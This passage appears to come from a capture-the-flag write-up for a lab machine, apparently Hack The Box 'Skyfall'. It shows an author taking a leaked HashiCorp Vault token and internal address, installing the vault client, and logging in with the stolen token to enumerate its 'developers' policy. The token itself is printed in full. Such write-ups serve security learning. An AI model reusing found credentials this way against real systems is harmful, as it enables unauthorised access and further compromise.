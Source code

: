 ```bash
< export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
< export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```

Nice, another credentials.

Now we need `vault` program,
[https://min.io/docs/kes/integrations/hashicorp-vault-keystore/](https://min.io/docs/kes/integrations/hashicorp-vault-keystore/)
[https://developer.hashicorp.com/vault/install](https://developer.hashicorp.com/vault/install)

```bash
└─$ curl -LO https://releases.hashicorp.com/vault/1.17.0/vault_1.17.0_linux_amd64.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  141M  100  141M    0     0  1507k      0  0:01:36  0:01:36 --:--:-- 1542k
└─$ unzip vault_1.17.0_linux_amd64.zip
Archive:  vault_1.17.0_linux_amd64.zip
  inflating: LICENSE.txt
  inflating: vault
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
└─$ ./vault login
Token (will be hidden):
WARNING! The VAULT_TOKEN environment variable is set! The value of this
variable will take precedence; if this is unwanted please unset VAULT_TOKEN or
update its value accordingly.

Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
token_accessor       rByv1coOBC9ITZpzqbDtTUm8
token_duration       432648h6m35s
token_renewable      true
token_policies       ["default" "developers"]
identity_policies    []
policies             ["default" "developers"]
```

Environment variables was not enough, needed to issue [login](https://developer.hashicorp.com/vault/docs/commands/login) command.

Most commands from docs were blocked due to access [https://developer.hashicorp.com/vault/docs/commands/list](https://developer.hashicorp.com/vault/docs/commands/list)
Since token is part of *developers* we should be able to do something.
